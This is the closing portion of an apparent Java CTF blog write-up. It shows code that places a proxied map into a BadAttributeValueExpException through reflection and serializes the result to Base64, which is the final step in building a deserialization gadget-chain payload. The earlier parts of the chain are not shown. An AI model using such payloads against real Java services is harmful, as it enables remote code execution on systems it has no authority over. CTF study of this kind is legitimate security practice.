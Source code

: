```java  
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);    
        setFieldValue(badAttributeValueExpException,&#34;val&#34;,proxyMap);    
        System.out.println(serialize(badAttributeValueExpException));    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
}  
```  
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-ctf2/  

